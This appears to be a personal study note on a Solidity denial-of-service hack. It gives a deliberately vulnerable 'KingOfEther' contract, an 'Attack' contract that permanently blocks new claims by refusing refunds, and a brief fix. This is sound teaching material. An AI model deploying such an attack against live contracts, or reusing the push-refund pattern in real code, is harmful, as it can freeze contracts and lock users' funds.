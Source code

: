 #DoS 

https://solidity-by-example.org/hacks/denial-of-service/

The following code will result in denial of service because `Attack` didn't implement a [[Payable]] [[Fallback and Receive]], if the `Attack` becomes the `king`, the call to repay ether to `king` will fail always, result in a denial of service
Solution: always let user withdraw their own funds
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract KingOfEther {
    address public king;
    uint256 public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent,) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // You can also perform a DOS by consuming all gas using assert.
    // This attack will work even if the calling contract does not check
    // whether the call was successful or not.
    //
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}

```